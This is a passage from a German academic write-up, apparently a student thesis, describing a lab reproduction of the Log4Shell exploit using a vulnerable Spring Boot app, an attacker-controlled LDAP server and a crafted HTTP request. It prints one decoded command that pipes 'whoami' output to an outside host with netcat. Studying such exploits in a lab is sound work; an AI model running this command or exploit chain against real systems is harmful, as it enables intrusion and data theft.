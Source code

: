 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden, wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp}
Es beinhaltet eine Java Spring Boot Web Applikation, die mit einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.

Des Weiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren.
Hierfür verwendet wurde ein weiteres Git Repository, in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird.
Dieses Repository wurde jedoch aus GitHub entfernt.
Das Kompilat des schädlichen \gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}

Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden.
In der Anfrage muss nun nur noch die \gls{ip}-Adresse mit Port angegeben werden, unter der der \gls{ldap}-Server erreichbar ist.

\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet.
Daher liegt das auszuführende Skript als base64-encoded String vor.
Die \gls{bash} Befehle, die hier der Reihe nach ausgeführt werden, sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.

Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Reverse-engineert werden.
Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:



